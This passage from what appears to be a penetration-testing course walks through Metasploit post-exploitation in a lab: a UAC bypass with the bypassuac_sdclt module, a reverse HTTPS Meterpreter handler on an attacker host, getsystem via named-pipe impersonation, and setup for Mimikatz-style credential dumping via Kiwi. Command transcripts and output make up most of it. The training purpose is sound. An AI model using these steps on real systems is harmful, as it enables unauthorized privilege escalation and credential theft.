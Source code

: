 > Listing 70 - Executing a UAC bypass using a Meterpreter session

Listing 70 shows that our UAC bypass post-exploitation module created a new Meterpreter session for us.

Let's check the integrity level of the process as we did before.

```
meterpreter > shell
Process 2328 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell -ep bypass
powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> Import-Module NtObjectManager
Import-Module NtObjectManager

PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Get-NtTokenIntegrityLevel
High
```

> Listing 71 - Reviewing integrity level

Nice! Listing 71 shows that the process our payload runs in has the integrity level *High* and therefore we have successfully bypassed UAC.

Besides being able to background an active session and execute modules through it, we can also load extensions directly inside the active session with the **load** command.

One great example of this is *Kiwi*, which is a Meterpreter extension providing the capabilities of *Mimikatz*. Because Mimikatz requires SYSTEM rights, let's exit the current Meterpreter session, start the listener again, execute **met.exe** as user *luiza* in the bind shell, and enter **getsystem**.

```
msf6 exploit(windows/local/bypassuac_sdclt) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.119.4:443
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: gokdtcex) Redirecting stageless connection from /tiUQIXcIFB-TCZIL8eJASw2GMM8KqsU3KADjTJhh8lSgwsEBpqGfM1Q0FsWwlgyPzfFi9gci43oVxGCxcYQy0mH0 with UA 'Mozilla/5.0 (Macintosh; Intel Mac OS X 12.2; rv:97.0) Gecko/20100101 Firefox/97.0'
[*] https://192.168.119.4:443 handling request from 192.168.50.223; (UUID: gokdtcex) Attaching orphaned/stageless session...
[*] Meterpreter session 11 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-04 10:10:16 -0400

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
```
